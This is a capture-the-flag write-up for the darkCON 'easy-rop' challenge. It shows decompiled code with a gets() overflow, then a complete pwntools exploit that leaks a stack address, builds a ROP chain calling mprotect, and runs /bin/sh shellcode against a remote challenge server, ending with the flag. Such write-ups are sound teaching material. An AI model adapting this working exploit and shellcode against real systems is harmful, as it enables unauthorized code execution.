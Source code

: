 The given binary is statically linked and is affected by an overflow.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // edx
  int v4; // ecx
  int v5; // er8
  int v6; // er9
  u32 uaddr2[16]; // [rsp+0h] [rbp-40h] BYREF

  setvbuf(stdin, 0LL, 2LL, 0LL);
  setvbuf(stdout, 0LL, 2LL, 0LL);
  setvbuf(stderr, 0LL, 2LL, 0LL);
  alarm(655359LL);
  puts("Welcome to the darkcon pwn!!");
  printf((unsigned int)"Let us know your name:", 0, v3, v4, v5, v6, uaddr2[0]);
  return gets(uaddr2);
}
```
There is a interesting function "dl_make_stack_executable" which is a wrapper to mprotect (function use to change page permission).
```c
unsigned int __fastcall dl_make_stack_executable(_QWORD *a1)
{
  unsigned int result; // eax

  result = mprotect(*a1 & -dl_pagesize, dl_pagesize, (unsigned int)_stack_prot);
  if ( result )
    return __readfsdword(0xFFFFFFC0);
  *a1 = 0LL;
  dl_stack_flags |= 1u;
  return result;
}
```
We trigger the overflow in order to leak the stack address (cuz there is ASLR), then call mprotect to make stack RWX, and finally execute a shellcode injected into the stack.  
exploit:

```python
from pwn import *

PADDING = b'A'*72
POP_RSI = 0x000000000040f4be #pop rsi; ret;
POP_RAX = 0x00000000004175eb #pop rax; ret;
POP_RDI = 0x000000000040191a #pop rdi; ret;
POP_RDX = 0x000000000040181f #pop rdx; ret;
MOV_RSI = 0x0000000000481e65 #mov qword ptr [rsi], rax; ret;
PUSH_RSP = 0x000000000041318e #push rsp; ret;
STACK_EXEC = 0x00000000004826d0 #_dl_make_stack_executable
STACK_PROT = 0x00000000004bfef0 #__stack_prot
LIBC_STACKEND = 0x00000000004bfa70 #__libc_stack_end
PUTS = 0x418B90
MAIN = 0x0000000000401de5
MPROTECT = 0x451ee0

shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

#p = process('./easy-rop')
p = remote('65.1.92.179', 49153)

print(p.recvuntil('name:').decode())


payload = PADDING
payload += p64(POP_RDI)
payload += p64(LIBC_STACKEND)
payload += p64(PUTS)
payload += p64(MAIN)

p.sendline(payload)
STACK_ADDR = int.from_bytes(p.recv(6), byteorder='little')&~(0xfff)  #recive leaked address and set to 0 last 3 byte in order to call mprotect
print(hex(STACK_ADDR))
print(p.recvuntil('name:').decode())

payload += p64(POP_RDX)
payload += p64(0x7)
payload += p64(POP_RSI)
payload += p64(0x1000)

payload += p64(POP_RDI)
payload += p64(STACK_ADDR)
payload += p64(MPROTECT)
payload += p64(PUSH_RSP)
payload += shellcode

p.sendline(payload)
p.interactive()
```
# FLAG
`darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}`
